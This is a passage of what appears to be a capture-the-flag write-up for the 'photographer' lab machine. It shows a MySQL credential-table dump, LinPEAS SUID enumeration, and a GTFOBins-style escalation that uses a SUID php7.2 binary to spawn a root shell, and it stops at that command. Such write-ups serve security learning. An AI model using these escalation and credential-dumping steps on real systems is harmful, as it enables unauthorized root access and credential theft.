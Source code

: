 	![](images/Pasted%20image%2020220203172741.png)
	- kokenuser:user_password_here
4. Access MySQL
	```
	MariaDB [koken]> SELECT password,email FROM koken_users;
	+--------------------------------------------------------------+------------------------+
	| password                                                     | email                  |
	+--------------------------------------------------------------+------------------------+
	| $2a$08$ruF3jtzIEZF1JMy/osNYj.ibzEiHWYCE4qsC6P/sMBZorx2ZTSGwK | daisa@photographer.com |
	+--------------------------------------------------------------+------------------------+
	1 row in set (0.01 sec)
	```
	- No new credentials
5. Linpeas
	```
	                                         ╔═══════════════════╗
	═════════════════════════════════════════╣ Interesting Files ╠═════════════════════════════════════════
											 ╚═══════════════════╝
	╔══════════╣ SUID - Check easy privesc, exploits and write perms
	╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
	-rwsr-xr-- 1 root messagebus 42K Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
	-rwsr-xr-x 1 root root 10K Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
	-rwsr-sr-x 1 root root 11K Oct 25  2018 /usr/lib/xorg/Xorg.wrap
	-rwsr-xr-x 1 root root 109K Jul 10  2020 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
	-rwsr-xr-x 1 root root 419K Mar  4  2019 /usr/lib/openssh/ssh-keysign
	-rwsr-xr-x 1 root root 19K Mar 18  2017 /usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
	-rwsr-xr-x 1 root root 15K Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
	-rwsr-xr-- 1 root dip 386K Feb 11  2020 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
	-rwsr-xr-x 1 root root 23K Mar 27  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
	-rwsr-xr-x 1 root root 53K May 16  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
	-rwsr-xr-x 1 root root 39K May 16  2017 /usr/bin/newgrp  --->  HP-UX_10.20
	-rwsr-xr-x 1 root root 74K May 16  2017 /usr/bin/gpasswd
	-rwsr-xr-x 1 root root 4.7M Jul  9  2020 /usr/bin/php7.2 (Unknown SUID binary)
	-rwsr-xr-x 1 root root 134K Jan 31  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
	-rwsr-xr-x 1 root root 40K May 16  2017 /usr/bin/chsh
	-rwsr-xr-x 1 root root 49K May 16  2017 /usr/bin/chfn  --->  SuSE_9.3/10
	-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping
	-rwsr-xr-x 1 root root 31K Jul 12  2016 /bin/fusermount
	-rwsr-xr-x 1 root root 40K May 16  2018 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
	-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping6
	-rwsr-xr-x 1 root root 27K May 16  2018 /bin/umount  --->  BSD/Linux(08-1996)
	-rwsr-xr-x 1 root root 40K May 16  2017 /bin/su
	```
	- `/usr/bin/php7.2`, has a [GTFOBins](https://gtfobins.github.io/gtfobins/php/#suid) entry
6. Exploit
	```
	www-data@photographer:/tmp$ CMD="/bin/sh"
	www-data@photographer:/tmp$ /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"